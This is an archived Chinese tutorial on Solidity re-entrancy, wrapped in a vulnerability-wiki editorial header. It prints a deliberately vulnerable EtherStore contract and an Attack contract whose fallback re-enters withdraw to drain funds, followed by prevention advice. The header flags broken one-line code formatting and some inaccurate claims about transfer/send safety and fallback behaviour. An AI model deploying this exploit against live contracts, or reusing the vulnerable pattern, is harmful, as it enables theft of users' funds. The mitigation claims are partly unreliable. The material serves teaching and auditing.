





# 智能合约安全之 Re-Entrancy(重入攻击)

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Solidity EtherStore 重入教学案例
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：原文未给出可确认的版本、认证及部署边界；保留待核
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 两段代码粘成单行，第一段SPDX行注释吞所有代码，结尾反斜杠花括号非法
2. 根因是外部调用前余额未更新，不是出现call就有漏洞
3. transfer/send绝不可能重入及2300gas永久足够防御的断言不稳，应以CEI/锁为核心并考虑gas变化
4. 0.8.13应区分fallback与receive，泛称无数据必fallback不准确
5. attack只向目标存1ETH与叙述攻击者2ETH/总4ETH过程不符，资金到Attack合约且无提取函数不等于转入EOA
6. 有原示例URL和参考，属于教学无主CVE

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/-n7d2qzHewptP0sSFREmiQ>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-n7d2qzHewptP0sSFREmiQ)

0x01 漏洞介绍
---------

近期在面向 Web2 到 Web3 的转型，当然对于红蓝对抗依旧是没有落下。web3 不单是金融，运营，社交... ... 还有对应的安全，钱包安全、智能合约安全等... ...

我想接下来我会将大部分时间都留给 Web3 的学习上面，毕竟是一个全新的领域。下面分享的是一个智能合约常见的漏洞之一！

0x02 漏洞介绍与原理
------------

将 Ether 发送到地址的操作需要合约提交外部调用，这些外部调用可能被攻击者劫持，迫使合约执行进一步的代码导致重新进入逻辑

*   **address.`transfer()`**
    
*   **address.`send()`**
    
*   **address.`call()`**
    

除了`call()`之外其他两个函数都无法造成重入漏洞 (没有条件)

由于智能合约可以调用外部合约或者发送以太币，这些操作需要合约提交外部的调用，所以这些合约外部的调用就可以被攻击者利用造成攻击劫持，使得被攻击合约在任意位置重新执行，绕过原代码中的限制条件，从而发生重入攻击。

*   **Fallback 函数**
    

概念: 回退函数，是合约里的特殊无名函数，有且仅有一个。它在合约调用没有匹配到函数签名，或者调用没有带任何数据时被自动调用。

*   **Call 函数调用**
    

在 Solidity 中，call 函数簇可以实现跨合约的函数调用功能，其中包括 call、delegatecall 和 callcode 三种方式。

其中，call 是最常用的调用方式，调用后内置变量 msg 的值会修改为调用者，执行环境为被调用者的运行环境即合约的 storage。

通常情况下合约之间通过 call 来相互调用执行，由于 call 在相互调用过程中，被调用方的内置变量 msg 会随着调用方的改变而改变，这就成为了一个安全隐患，在特定的应用场景下将引发安全问题。

#### 漏洞流程



0x03 漏洞分析与复现
------------

##### 存在漏洞合约

```
// SPDX-License-Identifier: MITpragma solidity ^0.8.13;contract EtherStore {    mapping(address => uint) public balances;    function deposit() public payable {        balances[msg.sender] += msg.value;    }    function withdraw() public {        uint bal = balances[msg.sender];        require(bal > 0);        (bool sent, ) = msg.sender.call{value: bal}("");        require(sent, "Failed to send Ether");        balances[msg.sender] = 0;    }    // Helper function to check the balance of this contract    function getBalance() public view returns (uint) {        return address(this).balance;    \}\}
```

这些代码看起来是一个正常的充值与提币的合约，但是`EtherStore`合约当中的`withdraw()函数`存在外部调用 **msg.sender.call{value: bal}**

在这种情况下我们可以暂且定义为存在重入攻击！可以编写攻击合约来确认该合约是否真实存在重入漏洞。

##### 攻击合约

```
contract Attack {    EtherStore public etherStore;    constructor(address _etherStoreAddress) {        etherStore = EtherStore(_etherStoreAddress);    }        fallback() external payable {        if (address(etherStore).balance >= 1 ether) {            etherStore.withdraw();        }    }    function attack() external payable {        require(msg.value >= 1 ether);        etherStore.deposit{value: 1 ether}();        etherStore.withdraw();    }    function getBalance() public view returns (uint) {        return address(this).balance;    \}\}
```

攻击者可以使用攻击合约，清空存在重入漏洞的合约 (相当于将合约里的存款全部转移到自己的账户)

##### 流程

1）受害者: Tony 在 EtherStore 合约中存入 2 ETH 2）攻击者：Hacker 也在 EtherStore 合约中存入 2ETH 3）这个时候 EtherStore 合约中存在 4ETH 4）攻击着使用 Attack 攻击合约对钱包里的 ETH 进行重入攻击，清空合约里的 ETH



这个时候合约已经被存入了 4ETH，目前攻击者的合约中是不存在 ETH 的



那么我们开始进行重入攻击！



可以发现，EtherStore 合约当中的 ETH 已经被清空，转而在 Attack 合约当中出现了 4ETH。证明，重入漏洞攻击成功，EtherStore 合约存在重入攻击漏洞。

**攻击者的函数调用流程图：(转自 FREEBUF)**

**漏洞预防**

*   1. 在将 Ether 发送给外部合约时使用内置的 transfer() 函数 。transfer 转账功能只发送 2300 gas 不足以使目的地址 / 合约调用另一份合约（即重入发送合约）。
    
*   2. 引入互斥锁。也就是说，要添加一个在代码执行过程中锁定合约的状态变量，阻止重入调用。
    
*   3. 将任何对未知地址执行外部调用的代码，放置在本地化函数或代码执行中作为最后一个操作，是一种很好的做法。这被称为 检查效果交互（checks-effects-interactions） 模式。
    

0x04 结尾
-------

Web3 的路程还远，我们要学习的不止是 Web3 的安全！在学习智能合约审计之前我请教了我的好兄弟`@毕竟话少`, 他的博客写的非常好，对我很受用，也是智能合约审计的入门必看博客。除此之外还有慢雾科技、零时科技，CerTik 等等

```
代码摘自:https://solidity-by-example.org/hacks/re-entrancy/
参考：https://ssr-zjm.github.io/2020/01/08/%E6%99%BA%E8%83%BD%E5%90%88%E7%BA%A6%E5%AE%A1%E8%AE%A1-%E9%87%8D%E5%85%A5%E6%BC%8F%E6%B4%9E.html
```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
